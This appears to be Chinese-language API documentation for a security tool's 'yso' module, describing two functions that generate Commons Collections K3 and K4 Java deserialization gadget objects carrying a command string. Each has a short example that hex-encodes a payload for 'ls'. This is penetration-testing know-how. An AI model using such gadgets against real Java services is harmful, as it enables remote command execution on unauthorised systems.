 
### GetCommonsCollectionsK3JavaObject

#### 详细描述
GetCommonsCollectionsK3JavaObject 基于Commons Collections K3 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := &#34;ls&#34; // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollectionsK3JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollectionsK3JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollectionsK4JavaObject

#### 详细描述
GetCommonsCollectionsK4JavaObject 基于Commons Collections K4 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := &#34;ls&#34; // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollectionsK4JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```
